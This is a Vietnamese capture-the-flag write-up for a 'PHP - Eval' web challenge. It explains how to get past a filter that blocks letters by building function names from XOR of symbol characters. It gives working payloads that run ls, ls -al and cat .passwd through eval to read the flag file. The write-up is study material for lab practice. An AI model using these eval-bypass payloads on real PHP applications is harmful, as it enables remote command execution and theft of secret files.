

```diff
@@ Web-Server Challenge
```


## PHP - Eval [40 Points]

* Challenge cung cấp cho ta source code như sau

  

* Từ source code ta biết mục tiêu là bypass filter (lọc các ký tự alphabet) để thực thi các lệnh command line bằng hàm Eval. Vì các ký tự alphabet đều bị lọc nên ta thử tìm kiếm cách bypass và đọc được blog sau [đây](https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/) 

  

* Cụ thể, ta có thể dùng phép toán XOR để tạo ra các ký tự như mong muốn (ví dụ  ... ). Ta tự viết một script để có thể tự động chuyển chuỗi của ta thành payload có thể bypass

  

* Với payload ```('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-').'('.('['^'|').('@'^',').('^'^'-').('['^'|').')'``` (Tương đương với lệnh system('ls'). Kết quả ta thấy trang web chỉ in ra mà không thực thi hàm như mong muốn.

  

* Tới đây thì em không tìm được nguyên nhân mặc dù đã dựng lại môi trường tương tự. Thử search google thì thấy gợi ý về việc thay đổi cách gọi hàm. Cụ thể ta phải đổi cách gọi hàm thành dạng ```(function-name)(params)``` ví dụ (system)(ls) hoặc (system)('ls'). Điều này sẽ giúp PHP coi đoạn input đó là lệnh gọi hàm .. (maybe)

* Việc của bây giờ là đi tìm file chứa flag, thử với ```ls -al``` ta có

  - Payload ```(('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-'))(('@'^',').('^'^'-').('~'^'^').'-'.('!'^'@').('@'^','))``` Tương đương với ```(system)(ls -al)```

  - Kết quả

    

* ```cat .passwd``` ta được kết quả

  * Payload ```(('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-'))(('@'^'#').('!'^'@').('^'^'*').('~'^'^').'.'.('^'^'.').('!'^'@').('^'^'-').('^'^'-').('^'^')').('@'^'$'))``` tương đương với ```(system)(cat .passwd)```

  * Kết quả

    
